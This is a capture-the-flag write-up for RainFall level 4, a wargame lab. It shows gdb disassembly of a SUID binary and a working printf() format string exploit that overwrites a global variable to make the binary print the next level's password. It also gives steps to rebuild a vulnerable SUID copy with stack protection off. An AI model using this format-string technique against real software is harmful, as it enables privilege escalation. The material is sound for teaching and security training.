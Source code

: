 # Level 4

## Vulnerability

printf() format string attack with %d

## Context

We find a binary with owner level5 and SUID.
```
level4@RainFall:~$ ls -l
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
The binary seems to do the same thing as in previous levels, read from stdin, and print what is given.
```
level4@RainFall:~$ ./level4
oh hi!
oh hi!
```

## Solution

Investigating with gdb, we find fgets(), unfortunately protected against buffer overflow attack. But printf() may provide our vulnerability, similar to the last level.
```
level4@RainFall:~$ gdb -q level4
...
(gdb) disas main
...
   0x080484ad <+6>:	call   0x8048457 <n>
...
(gdb) disas n
...
...
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>  ; call fgets()
...
   0x08048488 <+49>:	call   0x8048444 <p>          ; call function p() which calls printf()
   0x0804848d <+54>:	mov    0x8049810,%eax	      ; load value of global variable "m" at 0x8049810
   0x08048492 <+59>:	cmp    $0x1025544,%eax        ; compare global variable "m" with 0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>       ; if false jump past system() call
   0x08048499 <+66>:	movl   $0x8048590,(%esp)      ; load argument "/bin/cat /home/user/level5/.pass"
   0x080484a0 <+73>:	call   0x8048360 <system@plt> ; call system("/bin/cat /home/user/level5/.pass")
...
(gdb) disas p
...
   0x08048450 <+12>:	call   0x8048340 <printf@plt> ; call printf()
```
After calling printf() the binary compares the value of global variable ```m``` at ```0x8049810``` to ```0x1025544``` (16930116 in decimal).
If true a call to system() launches a shell.

Let's use the printf() format string exploit to change the value of variable ```m``` to ```0x1025544```.

### Find %n address

First let's print the stack to find the address of the variable we wish to modify.
```
level4@RainFall:~$ (python -c 'print "BBBB" + " %x" * 13' ; cat -) | ./level4
BBBB b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 42424242 20782520
```
We find buffer BBBB (42424242) in 12th position.

Our target value ```16930116``` is too long for the ```%n``` exploit as used in the last level (%n stores only 4 bytes).
However, we can dynamically specify field width with modifier ```%d```  e.g. ```%16930116d```.

### Build exploit string

So we build our format string exploit:
1. Address of glabal variable ```m``` (4 bytes)          - ```\x10\x98\x04\x08```
2. 16930112 bytes padding using ```%d```                 - ```%16930112d```
3. store n bytes printed in 12th argument with ```%n```  - ```%12$n```

When we feed our format string attack to the binary it opens a shell and shows us the level5 password.
```
level4@RainFall:~$ (python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' ; cat -) | ./level4
...
                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Recreate Exploited Binary

As user ```level5```, in ```/tmp```, create and compile ```level4_source.c```.
```
level5@RainFall:/tmp$ gcc level4_source.c -fno-stack-protector -o level4_source
```
Edit permissions including suid, then move the binary to home directory.
```
level5@RainFall:/tmp$ chmod u+s level4_source; chmod +wx ~; mv level4_source ~
```
Exit back to user ```level4```, then run the source with an updated address of global variable ```m```.
```
level5@RainFall:/tmp$ exit
exit
level4@RainFall:~$ (python -c 'print "\x28\xa0\x04\x08" + "%16930112d" + "%12$n"' ; cat -) | /home/user/level5/level4_source
```
